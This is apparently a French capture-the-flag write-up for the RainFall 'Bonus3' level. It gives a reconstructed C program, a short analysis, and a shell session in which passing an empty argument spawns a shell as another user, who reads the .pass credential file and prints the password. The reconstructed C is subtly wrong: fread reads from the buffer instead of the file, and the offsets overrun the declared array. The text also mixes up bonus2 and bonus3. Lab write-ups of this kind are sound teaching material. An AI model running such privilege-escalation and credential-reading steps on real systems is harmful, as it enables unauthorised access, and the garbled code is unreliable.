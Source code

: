 # Bonus3

pass : `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`

## Sources :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int		main(int ac, char **av) {
	FILE	*file;  // exp+0x9c
	char	str[65];  // esp+0x18
	int		nb;  // esp+0x59

	file = fopen("/home/user/end/.pass", "r");
	bzero(str, 33);
	if (!file)
		return 255;
	if (ac != 2)
		return 255;

	fread(str, 1, 66, file);  // 0x42
	nb = 0;
	str[atoi(av[1])] = 0;
	fread(str+66, 1, 65, str);  // 0x41
	fclose(file);

	if (strcmp(str, av[1]) == 0) {
		execl("/bin/sh", "sh", 0);
	} else {
		puts(str + 66);
	}
	return 0;
}
```

## Recherche :

On voit que le programme fait une comparaison entre `str` et `av[1]`, le plus simple pour que les deux soit égales, est que les deux soient nulles.

Pour que `str` soit nulle, il suffit que lorsqu'on fait `str[atoi(av[1])] = 0;` on ait `atoi(av[1]) == 0`.

`atoi("0") == 0`, mais aussi `atoi("") == 0`

Comme on attend forcément un argument au lieu d'appeler `./bonus2`, on va faire `./bonus3 ""`

## Exploit :

```sh
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cd ../end
$ cat .pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
